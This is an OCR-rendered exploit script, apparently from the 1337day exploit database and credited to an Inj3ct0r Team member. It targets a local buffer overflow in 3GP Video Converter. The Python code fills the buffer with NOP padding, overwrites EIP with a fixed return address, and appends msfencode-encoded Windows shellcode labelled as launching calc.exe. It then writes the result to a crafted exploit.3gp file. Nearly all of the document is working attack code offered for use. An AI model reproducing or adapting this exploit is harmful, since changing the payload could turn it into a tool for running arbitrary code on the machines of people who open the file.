 EXP
---

    #!/usr/bin/env python
    1-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=0
    0     _                   __           __       __                     1
    1   /' \            __  /'__`\        /\ __  /'__`\                   0
    0  /_, \    ___   /_\/_\ \ \    ___\ \ ,_\/\ \/\ \  _ ___           1
    1  \/_/\ \ /' _ `\ \/\ \/_/__<_  /'___\ \ \/\ \ \ \ \/\`'__\          0
    0     \ \ \/\ \/\ \ \ \ \/\ \ \ \/\ __/\ \ _\ \ _\ \ \ \/           1
    1      \ _\ _\ __\ \ \ ____/\ ____\\ __\\ ____/\ _\           0
    0       \/_/\/_/\/_/\ _\ \/___/  \/____/ \/__/ \/___/  \/_/           1
    1                  \ ____/ >> Exploit database separated by exploit   0
    0                   \/___/          type (local, remote, DoS, etc.)    1
    1                                                                      1
    0  [+] Site            : 1337day.com                                   0
    1  [+] Support e-mail  : submit[at]1337day.com                         1
    0                                                                      0
    1               #########################################              1
    0               I'm Angel Injection member from Inj3ct0r Team          1
    1               #########################################              0
    0-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-==-=-=-1
    ###################################################################
    #
    # Exploit Title: 3GP Video Converter Local Buffer Overflow
    # Author: Angel Injection
    # Date: 17/9/2011
    # Thanks To: Inj3ct0r Owners | r0073r // Sid3^effects // r4dc0re // CrosS || Inj3ct0r Team || SeeMe // XroGuE // gunslinger_ // indoushka // KnocKout // ZoRLu //anT!-Tr0J4n // eXeSoul // KedAns-Dz // ^Xecuti0n3r // Kalashinkov3
    #
    ###################################################################

    start = "\x5e\x3d\x6d\x77\x66\x64\x55\x6c\x61\x79\x5d\x0e\x0d\x46\x69\x6f\x65\x4a\x61\x6e\x65\x30\x3d\x43\x3a\x5e"
    junk = '\x90' * 2100
    eip = '\xF7\x30\x9E\x7E'
    nops = '\x90'*20

    # msfpayload windows/exec CMD=calc.exe R | msfencode -a x86 -t c
    sc = ("\xbe\x41\x9e\x4e\xd0\x33\xc9\xda\xd7\xd9\x74\x24\xf4\xb1\x33"
    "\x58\x31\x70\x10\x83\xe8\xfc\x03\x31\x92\xac\x25\x4d\x42\xb9"
    "\xc6\xad\x93\xda\x4f\x48\xa2\xc8\x34\x19\x97\xdc\x3f\x4f\x14"
    "\x96\x12\x7b\xaf\xda\xba\x8c\x18\x50\x9d\xa3\x99\x54\x21\x6f"
    "\x59\xf6\xdd\x6d\x8e\xd8\xdc\xbe\xc3\x19\x18\xa2\x2c\x4b\xf1"
    "\xa9\x9f\x7c\x76\xef\x23\x7c\x58\x64\x1b\x06\xdd\xba\xe8\xbc"
    "\xdc\xea\x41\xca\x97\x12\xe9\x94\x07\x23\x3e\xc7\x74\x6a\x4b"
    "\x3c\x0e\x6d\x9d\x0c\xef\x5c\xe1\xc3\xce\x51\xec\x1a\x16\x55"
    "\x0f\x69\x6c\xa6\xb2\x6a\xb7\xd5\x68\xfe\x2a\x7d\xfa\x58\x8f"
    "\x7c\x2f\x3e\x44\x72\x84\x34\x02\x96\x1b\x98\x38\xa2\x90\x1f"
    "\xef\x23\xe2\x3b\x2b\x68\xb0\x22\x6a\xd4\x17\x5a\x6c\xb0\xc8"
    "\xfe\xe6\x52\x1c\x78\xa5\x38\xe3\x08\xd3\x05\xe3\x12\xdc\x25"
    "\x8c\x23\x57\xaa\xcb\xbb\xb2\x8f\x24\xf6\x9f\xb9\xac\x5f\x4a"
    "\xf8\xb0\x5f\xa0\x3e\xcd\xe3\x41\xbe\x2a\xfb\x23\xbb\x77\xbb"
    "\xd8\xb1\xe8\x2e\xdf\x66\x08\x7b\xbc\xe9\x9a\xe7\x6d\x8c\x1a"
    "\x8d\x71")

    exploit = junk + eip + nops + sc
    rest = '\x90'*(2000-len(exploit))
    end="\x2d\x6d\x72\x44\x0d\x0e\x45\x69\x6c\x65\x4e\x61\x6d\x65\x31\x3d\x0d\x0a\x4e\x75\x6d\x46\x69\x6c\x65\x73\x3d\x31\x0d\x0a"

    try:
        f = open("exploit.3gp","w");
        f.write(start+exploit+rest+end)
        f.close()
        print "Done!"
    except:
        print "Exploit By Inj3ct0r Team"